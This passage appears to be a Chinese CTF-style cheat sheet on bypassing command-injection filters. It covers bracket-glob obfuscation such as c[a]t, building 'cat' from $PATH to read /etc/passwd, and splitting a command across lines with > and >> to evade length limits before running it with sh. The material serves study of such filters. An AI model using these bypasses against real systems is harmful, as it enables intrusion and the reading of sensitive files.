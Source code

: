 

#### **[]匹配绕过**

```php
c[a]t  =>  cat
mo[r]e  =>  more  
in[d]ex  =>  index
p[h]p  =>  php
```



#### **利用系统内置变量**

#### **配合通配符构造命令**

PATH 命令的搜寻路径。即环境变量。无添加的情况下默认是n结尾。

```php
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
`echo $PATH| cut -c 8,9`t /etc/passwd
```



### 长度限制绕过

1、inux中的>符号和>>符号

- 通过>来创建文件: `>test.txt`

- 通过>将命令结果存入文件中: `echo "hello world">test.txt`，使用>命令会将原有文件内容覆盖，如果文件不存在则会新建。

- 使用>>符号，是将字符串添加到文件内容末尾，而不会覆盖原内容。

  

2、Linux中的命令换行
在linux中，可以通过在没有写完的命令后面加 `\`，可以将一条命令写在多行，如下

```php
ca\
t\
fl\
ag
```

于是乎，我们可以利用`>>`符号和命令换行的机制，将自己的命令分多行写入一个文本中，然后通过sh命令来读取并执行文本中的命令，如下：

```php
echo "ca\\">cmd
echo "t\\">>cmd
echo " fl\\">>cmd
echo "ag">>cmd
sh cmd
```

以上命令相当于执行了一条 `cat flag` 命令，用这种方法可以绕过一些长度限制来读取文件内容。

